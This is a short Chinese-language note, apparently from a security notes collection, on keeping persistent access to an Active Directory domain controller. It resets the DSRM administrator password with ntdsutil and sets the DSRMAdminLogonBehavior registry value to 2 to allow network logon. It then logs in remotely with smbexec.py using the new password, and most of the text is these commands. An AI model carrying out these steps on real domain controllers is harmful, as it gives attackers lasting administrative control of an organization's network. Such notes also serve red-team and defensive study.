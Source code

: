 # 修改 DSRM 密码进行域维权

DSRM 账号就是域控机器的本地管理员账户。

```
ntdsutil

输入 " set DSRM password "， 回车
输入 " reset password on server null "，回车
输入两次新密码,回车，然后退出即可。

我重置的密码是：p-0p-0p-0p-0
```

修改注册表，使得 DSRM 账号可以网络登录域控。

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -name "DSRMAdminlogonbehavior" -value 2 -propertyType DWORD
```

登录

```
python3 smbexec.py DC01/administrator:p-0p-0p-0p-0@192.168.72.21 -codec gbk
```

![image-20250217172444202](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250217172444202.png)